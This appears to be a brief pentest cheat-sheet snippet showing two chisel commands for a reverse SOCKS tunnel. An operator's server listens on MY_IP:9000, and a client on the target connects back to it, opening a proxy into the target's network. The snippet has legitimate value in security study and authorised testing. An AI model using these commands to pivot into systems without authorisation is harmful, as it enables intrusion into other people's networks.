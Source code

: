 My serv (MY_IP)
```
chisel server --reverse --socks5 -p 9000
```

Target
```
chisel client MY_IP:9000 R:127.0.0.1:socks
```
